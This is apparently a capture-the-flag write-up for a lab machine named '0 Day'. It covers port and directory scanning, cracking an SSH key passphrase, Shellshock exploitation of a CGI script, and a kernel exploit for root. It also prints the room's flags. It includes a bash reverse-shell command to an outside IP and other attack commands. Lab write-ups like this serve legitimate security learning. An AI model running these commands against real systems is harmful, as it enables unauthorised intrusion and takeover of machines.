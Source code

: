 > 0 Day

## export IP=10.10.94.190

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
```

# Gobuster

sudo gobuster -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -o gobuster/initial -x txt,php,py,html

```
/index.html (Status: 200)
/cgi-bin (Status: 301) => Looks like our only option
/img (Status: 301)
/uploads (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/backup (Status: 301) => Has RSA Key
/robots.txt (Status: 200) => Funny ?
/secret (Status: 301) => A turtle image (couldn't find anything)
```

# Cracking SSH using ssh2john

python3 ssh2john.py id_rsa > ssh_john

john ssh_john --wordlist=rockyout.txt

```
letmein          (id_rsa)
```

But we don't have ryan's password.

# Nikto

nikto -h "http://10.10.94.190" | tee nikto.log


```
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /backup/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ /admin/index.html: Admin login page/section found.
```

We can go through our only option `cgi-bin`. Let's check in gobuster

sudo gobuster -u http://$IP/cgi-bin -w /usr/share/wordlists/DirBuster-Lists/directory-list-2.3-medium.txt -o gobuster/cgi-bin

```
Nil
```

And we come to know we have Shellshock vulnerability.

I searched for shellshock in searchsploit and got one php file for RCE.

php exploit.php -u http://$IP/cgi-bin/test.cgi -c "bash -i >& /dev/tcp/10.8.107.21/1234 0>&1"

And we are in as www-data !!


# user.txt

```
THM{Sh3llSh0ck_r0ckz}
```

# Privilege Escalation

Let's find the version of OS.

uname -a

```
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

It looks pretty old!! Let's search for exploit and we got one. 

When compilin we get an error now looking at the $PATH it is not correct let's change it to default.

`export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

Now pass the exploit from our machine to remote machine. 

```
gcc priv_esc.c -o ofs
./ofs
```

We are in as root!!

# root.txt

```
THM{g00d_j0b_0day_is_Pleased}
```
